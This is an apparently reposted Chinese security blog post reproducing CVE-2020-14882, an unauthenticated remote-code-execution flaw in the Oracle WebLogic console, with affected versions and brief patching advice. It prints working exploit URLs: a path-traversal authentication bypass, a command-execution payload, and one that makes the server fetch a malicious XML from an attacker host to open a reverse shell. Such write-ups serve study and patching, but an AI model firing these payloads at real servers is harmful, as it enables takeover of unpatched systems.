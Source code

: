 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/CkyFuVk5ihd9UAWZKGthSw)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa25rQaTvrACXnFmCiacnaN7G5awqiamk1X1hk1mbES3XS6fIrXibjP96e7FL489xQEAb7sZtZCXUk4A7A/640?wx_fmt=jpeg)

(CVE-2020-14882)  

**前言:**

Weblogic 是美国 Oracle 公司出品的一个 Application Server，确切的说是一个基于 JavaEE 架构的中间件，Weblogic 是用于开发、集成、部署和管理大型分布式 Web 应用、网络应用和数据库应用的 Java 应用服务器。

**漏洞描述:**

存在于 Oracle Fusion Middleware（组件：控制台）的 Oracle WebLogic Server 产品中的漏洞。利用该漏洞，远程攻击者可以构造特殊的 HTTP 请求，在未经身份验证的情况下接管 WebLogic Server Console，并在 WebLogic Server Console 执行任意代码。

**漏洞复现 (****Weblogic 12 版本)****:**

首先看一下是否存在未授权访问漏洞。

访问如下 url

```
http://ip:7001/console/css/%252e%252e%252fconsole.portal
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25rQaTvrACXnFmCiacnaN7G56f2XJBJscMSiaxAJy5km7M7xo51TG39DkO8ibibgoMmMpAXLJicEzx9rvQ/640?wx_fmt=png)  

执行命令, 创建一个文件。

```
http://ip:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/gem%27);%22);
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25rQaTvrACXnFmCiacnaN7G537XutibdtrxCicGeqSGUJgYavXVlG9IbljpbBKk4DUM37cOeUic09yy2A/640?wx_fmt=png)

创建成功。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25rQaTvrACXnFmCiacnaN7G53me3cosjXfXt14m4702u14LgH5pptlh19NufgRorqQn9nFvJEuPk3g/640?wx_fmt=png)

构建恶意 xml，部署本地 web 服务上，迫使受害机下载执行嵌入在 xml 文件中的命令。

```
http://ip:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22http://ip/shell.xml%22)
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25rQaTvrACXnFmCiacnaN7G53QiceWKIibDBIKLIfx7qfLJc59VJ3BlWrGNTMd001x8sYw6YasgGkYFA/640?wx_fmt=png)

反弹成功。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25rQaTvrACXnFmCiacnaN7G5qJrEdUmr6Zbkj9YF24xCuia2BbhjhZ10Qfg4Kk1CibM2icZUeOrHhgvWw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25rQaTvrACXnFmCiacnaN7G5zQt04gxztQQGCpUwYsvTOhCNQUCq9ib2mHpSFvv9E7whpJwojoy9E5w/640?wx_fmt=png)

**影响版本:**  

<table><tbody><tr><td width="268" valign="top">Weblogic<br></td><td width="268" valign="top">10.3.6.0.0 版本</td></tr><tr><td width="268" valign="top">Weblogic</td><td width="268" valign="top">12.1.3.0.0 版本</td></tr><tr><td width="268" valign="top">Weblogic</td><td width="268" valign="top">12.2.1.3.0 版本</td></tr><tr><td width="268" valign="top">Weblogic</td><td width="268" valign="top">12.2.1.4.0 版本</td></tr><tr><td width="268" valign="top">Weblogic</td><td width="268" valign="top">14.1.1.0.0 版本</td></tr></tbody></table>

**修复建议:**  

及时更新版本;  

限制访问路径.

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa260lZABWwEo49lodRtpGIOoYYt5Ojm4Y1sdMD4ez7rL55g1IW3icCTOia91YicOrh1sjuOB5TiaUibCiaiaA/640?wx_fmt=jpeg)

一起学习，请关注我![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24an9TvS6grA3sWoTRYSQr4hZQYrCwcz8gD1evatvHgAquT3YhfNMxgqib63eQ1mRnQVjQA6W9icxFg/640?wx_fmt=png)

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。